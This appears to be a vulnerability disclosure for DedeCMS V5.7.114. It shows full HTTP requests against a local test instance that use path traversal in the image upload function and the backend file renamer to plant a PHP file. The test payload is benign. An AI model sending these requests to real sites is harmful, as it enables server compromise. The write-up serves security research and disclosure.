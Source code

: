 # Dedecms Path traversal+arbitrary file upload(other enter)

​	The zip compression file upload function of the Dreamweaver backend software manager has vulnerabilities such as path traversal and arbitrary file upload

![image-20240708130926507](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitThree.assets/image-20240708130926507.png)

​	E: \ seebug \ phpstudy_pro is the root directory of my current web integration environment deployment. The current project is deployed in the 127.0.0.1-9600 folder under the WWW path.This time I chose E:\seebug\phpstudy_pro\WWW\127.0.0.1_9600\ as the destination path for file upload, because PHP scripts can be parsed in this fileWS

​	visit http://127.0.0.1:9600/dede/ And log in to the backend of dedecms to create a new atlas list http://127.0.0.1:9600/dede/album_add.php The interface is shown below

![image-20240712135020653](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitThree.assets/image-20240712135020653-1720767849469-41.png)

​	vulnerability mainly appears at the compressed file upload location

![image-20240712145034349](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitThree.assets/image-20240712145034349-1720767854033-44.png)

```http
POST /include/dialog/select_images_post.php HTTP/1.1
Host: 127.0.0.1:9600
Content-Length: 1971
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:9600
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary3Mt7CAkNjyzWYBFm
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://127.0.0.1:9600/include/dialog/select_images.php?f=form1.picname&noeditor=yes&imgstick=undefined
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=9fvqmoiniui5peunoom189bb23; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1ebb58ecac915613; _csrf_name_2f6ef1b1=267c4d98da681002ab955b10f8e0e3c3; _csrf_name_2f6ef1b11BH21ANI1AGD297L1FF21LN02BGE1DNG=1d4b8a59aa88baa3; DedeLoginTime=1720418572; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=9c25d28547e20a28; ENV_GOBACK_URL=%2Fdede%2Fcontent_list.php
Connection: close

------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="noeditor"

yes
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="activepath"

/uploads/..
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="f"

form1.picname
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="v"

picview
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="imgstick"

undefined
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="CKEditorFuncNum"

1
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="job"

upload
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="imgfile"; filename="0.php.png"
Content-Type: image/png

<?php echo 123;?>
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="iwidth"

240
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="iheight"

180
------WebKitFormBoundary3Mt7CAkNjyzWYBFm
Content-Disposition: form-data; name="sb1"

确定
------WebKitFormBoundary3Mt7CAkNjyzWYBFm--
```

​	`Select_images_post. php 'did not perform sufficient filtering on the activepath parameter, so it is possible to bypass the file suffix blacklist by modifying the value of activepath to a file name with a suffix of' php ', and combined with the first two path traversal vulnerabilities to achieve arbitrary file upload vulnerabilities

![image-20240708150758976](E:\360MoveData\Users\HideInDarkness\Desktop\dedecms\dedecms\V5.7.114-UTF8\V5.7.114-UTF8ExploitThree.assets\image-20240708150758976-1720767860876-47.png)

​	Here, you can also use the built-in file management system in the 'dedecms' backend to rename files and enable them to parse and run normally.

```http
POST /dede/file_manage_control.php HTTP/1.1
Host: 127.0.0.1:9600
Content-Length: 147
Cache-Control: max-age=0
sec-ch-ua: "Not_A Brand";v="8", "Chromium";v="120"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: http://127.0.0.1:9600
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.6099.199 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: iframe
Referer: http://127.0.0.1:9600/dede/file_manage_view.php?fmdo=rename&filename=inde1x.Php&activepath=%2Fuploads
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: menuitems=1_1%2C2_1%2C3_1; PHPSESSID=9fvqmoiniui5peunoom189bb23; DedeUserID=1; DedeUserID1BH21ANI1AGD297L1FF21LN02BGE1DNG=1ebb58ecac915613; _csrf_name_2f6ef1b1=ef87ce85f5d16c9875d2c6089936835b; _csrf_name_2f6ef1b11BH21ANI1AGD297L1FF21LN02BGE1DNG=c1e0489e3c20f4bf; last_vtime=1720421835; last_vtime1BH21ANI1AGD297L1FF21LN02BGE1DNG=070401ac415b7cb7; last_vid=admin; last_vid1BH21ANI1AGD297L1FF21LN02BGE1DNG=501af9a85db1a161; OrdersId=9448BQQIAFJRAgIFAQIIXQINU1cPAAFRVAIGAwY2FGYEVQAFAAoGVlAAYHsGBgY; ENV_GOBACK_URL=%2Fmember%2Fcontent_list.php%3Fchannelid%3D6; DedeLoginTime=1720426605; DedeLoginTime1BH21ANI1AGD297L1FF21LN02BGE1DNG=629ca267a38c9755; Shop_De_85=626cVlNVBgkHU1FVU1QBAAFTDwVTCVJXUgkDUlNbAV8OB0QWEQxVXApTRxANCxBFCkVVRxpfRFtcARdACkYJBwsXJ1VGXQYcDyJEIFtHJXMSIXYXJgkUdycVcHBGd1ZHDgJHXiFAcw0SISBAWyE; Shop_De_78=b741AwUHVAQBCAIBUlIFVwhVWg8GXwMEAAVaClRQAgUCARBDR14HUQwNAhcXWFkVQgxHc1NDCXETdyAUBkwfVkBUCwITQw1AXV0PFCcFFVkBFFp3QCMFF3dyRgsiHCMNEHhyFgwHQXECHQoBRw5y
Connection: close

fmdo=rename&activepath=%2F240708&filename=1-240FQ50614S6.png&oldfilename=1-240FQ50614S6.png&newfilename=index1.php&imageField1.x=31&imageField1.y=6
```

![image-20240708165441039](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitThree.assets/image-20240708165441039-1720767867223-50.png)

![image-20240708164949322](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitThree.assets/image-20240708164949322-1720767870470-53.png)

​	Successfully modified '127.0.0.1,9600 \ 240708 \ 1-240FQ50614S6. png' to '127.0.0.1,9600 \ 240708 \ index1php'`

![image-20240708165348465](https://github.com/thedarknessdied/dedecms/blob/main/V5.7.114-UTF8/V5.7.114-UTF8ExploitThree.assets/image-20240708165348465-1720767876084-56.png)